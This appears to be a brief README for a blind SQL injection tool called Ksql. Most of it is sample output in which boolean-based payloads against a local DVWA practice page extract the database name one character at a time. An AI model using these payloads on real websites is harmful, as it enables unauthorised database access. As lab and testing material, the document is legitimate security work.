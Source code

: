# Ksql - Blind SQL Injection

------

自己想的一种方式写出来的SQL注入检测的小工具
目前还在开发中，仅增加了Mysql基于布尔类型的盲注检测功能

http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="p
[]
http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="q
[]
http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="r
[]
http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="s
[]
http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="t
[]
http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="u
[]
http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="v
[]
http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="w
['firstName: admin']
w
http://localhost/test/test.php?id=1" AND MID(DATABASE(),4,1)="a
['firstName: admin']
a
database:  dvwa

